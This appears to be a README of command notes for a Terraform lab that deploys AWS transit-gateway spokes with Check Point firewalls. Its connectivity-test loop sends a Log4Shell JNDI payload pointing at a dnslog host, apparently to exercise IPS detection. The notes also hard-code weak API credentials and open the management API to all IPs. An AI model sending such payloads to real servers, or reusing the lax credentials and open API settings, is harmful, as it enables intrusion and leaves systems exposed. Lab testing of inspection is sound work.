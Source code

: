 # AWS lab with App spokes, TGW and CHKP VPC

Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

tf init

# bring credentials - AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

tf plan -target module.env

# step by step

# network environment
tf apply -auto-approve -target module.env

tf apply -auto-approve -target module.routes

# workloads in spokes accessible using SSM
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
tf apply -auto-approve -target module.cgns

tf apply -auto-approve -target module.routes

# full deployment
tf apply -auto-approve

# CP management console
ssh admin@34.247.143.157 -i C:\Users\mkoldov\.ssh\azureshell.key


# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20

autoprov_cfg set template -tn gwlb-configuration -ia -ips

watch -d api status

mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create api user
mgmt_cli -r true add api-user name "terraform" password "terraform" --domain "System Data"

# add api-key

mgmt_cli -r true add api-key name "terraform" key "terraform" --domain "System Data"

tail -f /var/log/CPcme/cme.log

# mgmt ip 10.255.77.227
# cplic - required for IPS!

#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


# remove
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!
